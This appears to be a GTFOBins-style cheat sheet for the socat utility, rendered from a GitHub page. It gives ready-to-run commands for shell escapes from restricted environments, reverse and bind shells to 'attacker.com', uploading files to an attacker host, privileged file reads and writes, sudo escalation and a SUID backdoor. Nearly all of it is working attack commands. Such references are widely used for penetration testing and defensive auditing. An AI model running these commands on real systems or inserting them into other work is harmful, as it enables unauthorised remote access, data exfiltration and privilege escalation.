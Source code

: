 # socat

## **Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

- The resulting shell is not a proper TTY shell and lacks the prompt.
    
    ```bash
    socat stdin exec:/bin/sh
    ```
    

## **Reverse shell**

It can send back a reverse shell to a listening attacker to open a remote network access.

- Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.
    
    ```bash
    RHOST=attacker.com
    RPORT=12345
    socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
    ```
    

## **Bind shell**

It can bind a shell to a local port to allow remote network access.

- Run `socat FILE:`tty`,raw,echo=0 TCP:target.com:12345` on the attacker box to connect to the shell.
    
    ```bash
    LPORT=12345
    socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
    ```
    

## **File upload**

It can exfiltrate files on the network.

- Run `socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat` on the attacker box to collect the file.
    
    ```bash
    RHOST=attacker.com
    RPORT=12345
    LFILE=file_to_send
    socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
    ```
    

## **File download**

It can download remote files.

- Run `socat -u file:file_to_send tcp-listen:12345,reuseaddr` on the attacker box to send the file.
    
    ```bash
    RHOST=attacker.com
    RPORT=12345
    LFILE=file_to_save
    socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
    ```
    

## **File write**

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```bash
LFILE=file_to_write
socat -u 'exec:echo DATA' "open:$LFILE,creat"
```

## **File read**

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```bash
LFILE=file_to_read
socat -u "file:$LFILE" -
```

## **Sudo**

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- The resulting shell is not a proper TTY shell and lacks the prompt.
    
    ```bash
    sudo socat stdin exec:/bin/sh
    ```
    

## **Limited SUID**

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.
    
    ```bash
    sudo install -m =xs $(which socat) .
    
    RHOST=attacker.com
    RPORT=12345
    ./socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
    ```